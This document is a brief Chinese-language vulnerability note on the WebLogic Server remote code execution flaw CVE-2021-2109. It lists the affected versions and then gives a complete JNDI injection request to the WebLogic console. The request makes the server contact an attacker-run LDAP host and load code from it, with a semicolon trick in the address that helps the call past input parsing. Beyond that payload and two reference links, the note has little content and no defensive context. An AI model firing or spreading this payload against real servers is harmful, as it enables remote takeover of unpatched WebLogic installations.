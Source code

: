 # Weblogic Server远程代码执行漏洞 (CVE-2021-2109)

**受影响版本：**

* Weblogic Server 10.3.6.0.0
* Weblogic Server 12.1.3.0.0
* Weblogic Server 12.2.1.3.0
* Weblogic Server 12.2.1.4.0
* Weblogic Server 14.1.1.0.0

**JNDI注入：**

```
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://127.0.0;1:1389/v3yovz;AdminServer%22)
```

ref：

https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw

https://forum.ywhack.com/thread-115007-1-1.html